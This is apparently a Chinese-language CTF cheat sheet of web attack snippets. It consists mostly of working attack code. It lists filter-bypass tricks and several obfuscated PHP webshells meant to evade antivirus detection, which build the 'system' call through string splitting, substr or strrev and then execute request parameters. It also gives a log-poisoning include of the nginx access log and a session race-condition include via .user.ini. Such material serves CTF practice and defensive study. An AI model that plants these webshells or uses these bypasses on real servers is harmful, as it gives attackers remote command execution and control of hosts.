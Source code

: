```
function()中的()可以使用``绕过
$_POST[1]中的[]可以使用{}绕过
```

### 免杀🐎

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
```

```php
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
```

```php
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>
```

```php
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>
```

```php
<?=$_GET[0]($_POST[1]);?>
```

## 文件上传与文件包含

> 待补充

[文件上传与伪协议](https://blog.csdn.net/qq_45086218/article/details/114188610)

### 日志包含

```php
<?=include"/var/lo"."g/nginx/access.lo"."g"?>    
```

### session条件竞争

```php
<?=include"/tmp/sess_xxxx"?>  //.user.ini: auto_append_file=xxxx
```
